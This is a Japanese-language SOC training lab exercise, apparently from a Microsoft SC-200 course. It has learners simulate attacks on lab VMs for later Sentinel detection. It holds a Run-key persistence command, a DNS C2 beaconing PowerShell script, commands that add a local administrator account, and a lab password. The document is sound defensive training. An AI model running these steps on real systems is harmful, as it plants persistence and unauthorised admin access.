# モジュール 7 - ラボ 1 - 演習 5 - 攻撃の実施

## ラボ シナリオ

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

後にMicrosoft Sentinelで検知・調査するために使用する攻撃をシミュレートすることになります。

### タスク 1: Defender for Endpoint によって構成した Windows を攻撃します。

このタスクでは、Microsoft Defender for Endpoint が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN1 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*Command* と入力します。  検索結果にコマンド プロンプトが表示されます。  コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。表示されるユーザー アカウント制御ウィンドウで、「**はい**」を選択して、アプリの実行を許可します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。
```
cd \
mkdir temp
cd temp
```
4. 攻撃 1 -このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 3 -次のコマンドをコピーして実行します。

```
notepad c2.ps1
```
「**はい**」を選択して新しいファイルを作成し、以下の PowerShell スクリプトを *c2.ps1* にコピーします。

**注:** 仮想マシンへの貼り付けには長さの制限がある場合があります。手順から直接コピーできない場合は、これを 3 つのセクションに貼り付けて、すべてのスクリプトが仮想マシンに貼り付けられるようにします。  スクリプトがメモ帳 *c2.ps1* ファイル内のこれらの手順のように見えることを確認してください。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

メモ帳のメニューで、「**ファイル**」を選択してから、「**上書き保存**」を選択します。コマンド プロンプト ウィンドウで、次のコマンドを入力し、各行の後に Enter キーを押して各行にコマンドを入力します。

```
powershell
.\c2.ps1
```

**注:** DNS名前解決エラーが表示されます。これは予測されていることです。
**重要:** ウィンドウを閉じないでください。このコマンド/パワーシェルスクリプトをバックグラウンドで実行します。コマンドは、数時間ログエントリを生成する必要があります。このスクリプトの実行中に次のタスクや次の演習に進むことができます。このタスクで作成したデータは、後で脅威の捜索ラボで使用します。このプロセスでは、大量のデータや処理を作成することはありません。

### タスク 2: Sysmon で構成された攻撃ウィンドウ

このタスクでは、セキュリティ イベント コネクタが構成され、Sysmon が構成されているホストに対して攻撃を実行します。

1. 管理者として WIN2 仮想マシンにログインします。パスワードは**Pa55w.rd** です。  

2. タスク バーの検索で、*CMD* と入力します。  検索結果にコマンド プロンプトが表示されます。コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。表示されるユーザー アカウント制御ウィンドウで、「**はい**」を選択して、アプリの実行を許可します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。

```
cd \
mkdir temp
cd \temp
```

4. 攻撃 1 - このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 2 - このコマンドをコピーして実行し、各行の後に Enter キーを押して各行にコマンドを入力します。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 演習 6 に進みます。

